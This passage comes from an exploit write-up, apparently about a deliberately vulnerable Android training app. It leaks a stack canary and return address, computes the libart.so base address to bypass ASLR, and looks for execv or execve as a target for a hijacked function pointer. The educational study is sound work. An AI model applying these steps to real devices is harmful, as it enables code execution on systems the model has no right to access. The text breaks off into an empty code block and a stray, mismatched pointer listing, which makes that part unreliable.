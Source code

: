 Now we just have to exploit this...

### Finding a better *obj + 0x100*

From [the first section](#leaking-data) we get a bunch of pointers. E.g. this might look like this:
```
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address
```
The first five addresses can be understood if one analyses `lookupExamples`. The canary is often just a [random 8 - byte value](https://link.springer.com/article/10.1007/s10207-018-00425-8) that is pushed between a stack frame and the local variables. Depending on the canary type, this can be a terminator - canary, i.e. it contains e.g. a null - byte, or something else. On Android, it is a [random canary](https://link.springer.com/article/10.1007/s10207-018-00425-8). Disassembling `lookupExamples` yields
```
gef➤  disassemble Java_com_damnvulnerableapp_vulnerable_modules_UseAfterFreeExecModule_lookupExamples 
    0x0000730b9d3c8990 <+0>:	push   rbp
    0x0000730b9d3c8991 <+1>:	mov    rbp,rsp
    0x0000730b9d3c8994 <+4>:	sub    rsp,0x70
    0x0000730b9d3c8998 <+8>:	mov    rax,QWORD PTR fs:0x28
    0x0000730b9d3c89a1 <+17>:	mov    QWORD PTR [rbp-0x8],rax 
    ...
```
and therefore the stack layout is as described above.

The problem is that we want to execute e.g. `execve` or similar, but this function is not referenced in the module itself. This is where the return address comes into play. On my machine, `art_quick_generic_jni_trampoline` is the function that calls `lookupExamples`. This may depend on, among other things, the way the function is specified in the java code, i.e. it could be static or non - static. In this case, the return address is `art_quick_generic_jni_trampoline+220`.

Running
```bash
$ readelf --wide --symbols libart.so | grep art_quick_generic_jni_trampoline
  7145: 000000000039fed0   378 FUNC    LOCAL  HIDDEN    14 art_quick_generic_jni_trampoline
```
gives the offset `0x39fed0`. Thus, the base address (mind *ASLR*) of `libart.so` is
```
0x730c0379ffac - 220 - 0x39fed0 = 0x730c03400000
```

From now on, all code in `libart.so` is also available to us. Remember that we can overwrite a function pointer, whose function is called with **two** parameters
1. `keyValue`: pointer to a user - controlled string
2. `<unknown>`: `NULL`

We could gamble and hope that `execve` works here, but most likely it will not. We again do not control enough parameters. Notice that looking for similar functions yields
```bash
$ readelf --wide --symbols libart.so | grep "exec"
   199: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execv@LIBC (2)
   200: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execve@LIBC (2)
   271: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND _ZN3art10DupCloexecEi
  1304: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS exec_utils.cc
  8795: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execv
  8796: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execve
 10033: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND _ZN3art10DupCloexecEi
```
Looking up `execv` reveals
```C
```

[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`